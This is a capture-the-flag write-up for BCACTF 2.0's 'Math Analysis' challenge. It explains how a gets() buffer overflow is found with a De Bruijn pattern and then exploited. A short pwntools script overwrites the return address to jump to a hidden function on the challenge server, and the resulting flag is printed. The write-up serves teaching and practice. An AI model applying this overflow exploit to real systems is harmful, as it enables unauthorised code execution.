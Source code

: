 # BCACTF 2.0 – Math Analysis

* **Category:** Binex
* **Points:** 75
* **Author:** [Wesley V](https://github.com/retoxified)

## Challenge

> Congratulations, you've graduated from letters! Now, let's move on to numbers.
>
> From the BCA Course Catalog:
>
>>Analysis I includes linear and quadratic functions, polynomials, inequalities, functions, exponential and logarithmic functions, conic sections, and geometry.
>
> That's a lot of cool stuff! I think you'll have tons of fun learning about functions in this class!

## Solution

The challenge page provides us with a [binary](Backup/analysis) and the [C code](Backup/analysis.c) it was compiled from.

Looking at the code, it becomes clear that the `cheat` function is what we're after. And the vulnerability that lets us do that is yet another buffer overflow. The program uses [gets](https://man7.org/linux/man-pages/man3/gets.3.html) to read our input into a 50 byte buffer.

The easiest way to figure out after how many bytes the return address is overwritten is to make use of a [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence). So I load the binary up in gdb with the [peda](https://github.com/longld/peda) installed because it has some useful helpers.

One of these helpers is `pattern create [length]`, which generates a De Bruijn sequence for us. A length of 100 should do for our purposes;

![Image](Docs/math-analysis-1.jpg)

Running the program afterwards and entering this pattern as input results in a segfault on the return

![Image](Docs/math-analysis-2.jpg)

The address at the top of the stack is where our return address should be located. We can find the offset with `pattern offset [pattern]`

![Image](Docs/math-analysis-3.jpg)

Now that we figured out where to store the return address it's time to get the address of the `cheat` function. The intended solution was to read this from the output of the binary, because it prints the address to the console, but because the binary is not hardened with `PIE` we can simply hardcode the address, making the script very straightforward.

```python
from pwn import *

#p = process('./analysis')
p = remote('bin.bcactf.com', 49158)

offs_cheat = 0x401256

p.sendline(b"A"*72 + p64(offs_cheat))

p.interactive()
```

which results in the following output:

```
It's math time, baby!
WOOO I love my numbers and functions and stuff!!
For example, here's a number: 4198998.
What do you think about that wonderful number?
> Numbeerrrrrs!
Anyways, we have a test coming up.
Be sure to study!
bcactf{challenges_are_just_functions_mapping_from_coffee_to_points}
```

So the flag for this challenge is:

`bcactf{challenges_are_just_functions_mapping_from_coffee_to_points}`